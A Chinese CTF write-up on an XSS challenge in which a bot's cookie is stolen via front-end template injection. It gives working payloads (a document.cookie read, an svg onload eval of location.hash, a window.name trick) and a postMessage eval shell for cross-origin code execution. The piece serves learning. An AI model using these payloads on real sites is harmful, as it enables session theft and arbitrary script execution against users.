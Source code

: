 
## 微积分计算小练习2.0
有点难的XSS，做出来也非常有成就感。这个题给了一个有漏洞的网站，然后我们可以提供一个静态HTML，题目会有一个selenium bot模拟受害者，先访问漏洞网站设置cookie，然后访问我们的静态HTML，整个过程不会出现任何输出，也不能连接外网。我们的目标是偷到bot设置的cookie。

### 网页XSS漏洞

首先开始挖网站上的漏洞，做题页面没有东西，结果页面有个评论区功能，只能留25个字符，并且过滤了一大堆字符。本来想讲讲思路的，不过想来还是直接把我当时做的笔记直接放上来比较有节目效果（

```js
- 按上一届，后台可能是uWSGI？
- 反斜杠可以转义
- 单个双引号会报错，说明整个是双引号括起来的？
    - "+"注入，后台不会eval了吧？
    - 1"*2+"2，会得到NaN2
    - "+url_for+"，会出现只有第二行加载中（运行时报错？）
    - "["__name__"]+" 出undefined
    - 23"||7+" 会去除前面的"你的评论"的提示
    - "+{a:12}+" 会出[object Object]，基本确定是js解释器，有window，document
        - 这好像是我自己的浏览器解释器啊？
        - 拿cookie payload: "+document["cookie"]+"
- md破案了，模板是：
updateElement("#comment", "你留下的评论：{{input}}");
```
如上面所示，加载评论的模板其实放在JS段的一个字符串中间，又没有过滤双引号和转义，那很容易就会造成前端的模板注入（并不是在模板引擎中注入而是在前端JS代码注入），因为评论区其他人也可以看到所以可以转化为持久性XSS。

到这一步就有两个分支思路了：
- 利用反斜杠转义功能制造通用XSS。市面上能见到最短的有效载荷是这个：`<svg/onload=eval(name)>`，但问题在于尖括号和圆括号被过滤了，尽管我们可以用`\74svg/onload=eval\50name\51\76`这样的8进制语法绕过，但很不幸还是太长了。
- 利用`"+ __ +"`结构截断字符串，注入JS代码。有很多有意思的变量可以用，比如`document["cookie"]`可以直接读出来放在页面上，比如`name`全局变量，可以在`window.open`时指定。`location["hash"]`变量，可以在URL的#后面插入内容来指定。只可惜这种方法里面调用函数是不行的，因为离开字符串环境就不能用反斜杠转义了，括号打不出来，也就没法用`"+eval(name)+"`这种手段执行代码了。

等下，如果我把两种方法结合起来用，阁下将如何应对？

- 在评论区注入`"+name+"`，
- 在`window.open`创建漏洞网站的窗口时，指定`name`如下。因为hash内容是#+URL转义后的内容，这样可以直接还原原文。

```js
<svg/onload=eval(decodeURI(location.hash.substring(1)));>
```

- 访问`http://web/result#<your js code>`可以在svg标签加载时直接执行后面的JS代码。

因为location.hash的长度限制很宽松，也没有WAF，我们实现了任意XSS。

### 跨域XSS + 结果返回
接下来还有两大难点需要解决：
- 漏洞网站在web上，而我们的网页挂载在localhost上，两者处于不同的源。因此基于浏览器的同源安全策略，不能用window, iframe等直接访问对方DOM内容，用fetch/XHR访问时不能携带cookie
- 本题的bot没有回显，没有外网，唯一的输出通道就是漏洞网站本身，而bot和我们处于不同的session，它对网站的修改我们是看不到的（甚至于一开始我都不知道bot的session是不是真的和我们不一样，也许id参数会给它一样的session也说不定呢）

首先解决跨域的问题。跨域通信有很多奇技淫巧，但是最正统的方法应该还是`postMessage`API，可以向对方发送一段字符串，对方可以监听`message`事件后用一个回调函数处理这个发送的字符串。这个通信是双向的，父窗口可以用`window.open`返回对象访问子窗口，而子窗口也可以用`window.opener`返回父窗口。为了方便调试，我实现了一个shell的功能，子窗口直接eval父窗口的命令，然后把结果返回去。因为后续命令会包含fetch等异步函数，所以这个shell也必须是一个异步的。我的实现如下：
```js
// 把回车缩进去掉变成一行塞到URL的#后面
w=window.opener;
window.addEventListener("message",(e)=>{
    console.log(e.data);
    eval("async ()=>{"+e.data+"}")().then(
        m=>w.postMessage(m, "*")
    )});
w.postMessage("OK:web","*");
```
这样一来，我们就可以在localhost源发送代码到web源执行，再也不用担心#后面代码过长导致的问题了。